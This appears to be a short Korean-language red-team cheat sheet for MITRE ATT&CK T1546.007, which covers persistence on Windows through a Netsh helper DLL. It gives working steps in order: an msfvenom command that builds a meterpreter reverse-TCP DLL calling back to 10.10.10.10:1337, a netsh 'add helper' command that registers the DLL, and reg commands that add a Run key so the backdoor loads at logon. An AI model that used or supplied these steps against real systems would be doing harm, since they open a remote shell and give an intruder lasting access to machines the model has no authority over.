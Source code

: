 # T1546.007 Netsh Helper DLL

Status: Persistence

---

# Summary

- MITRE ATT&CK : Enterprise - Persistence - Event Triggered Execution - Netsh Helper DLL
- Require Privilege : Local Administrator Level
- Running Privilege : Local Administrator Level
- Description : 윈도우 유틸리티 중 하나인 `Netsh` 에 확장 기능으로 악성 DLL을 삽입한다.

---

# How To

## Step 1. 악성 DLL 생성

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f dll > malicious.dll
```

## Step 2. Netsh Helper에 DLL 등록

```
netsh
add helper <path-to-malicious-dll>
```

---

# To Persistence

- `Netsh`는 기본적으로 실행되는 유틸이 아니기 때문에 지속성을 유지하려면 별도의 방법을 사용
- 아래와 같이 레지스트리 키 변조나 다른 Persistence와 Chaining하여 사용해야 함

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Malicious /t REG_SZ /d "C:\Windows\SysWOW64\netsh"
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run\\ -v Malicious -d 'C:\Windows\SysWOW64\netsh'
```

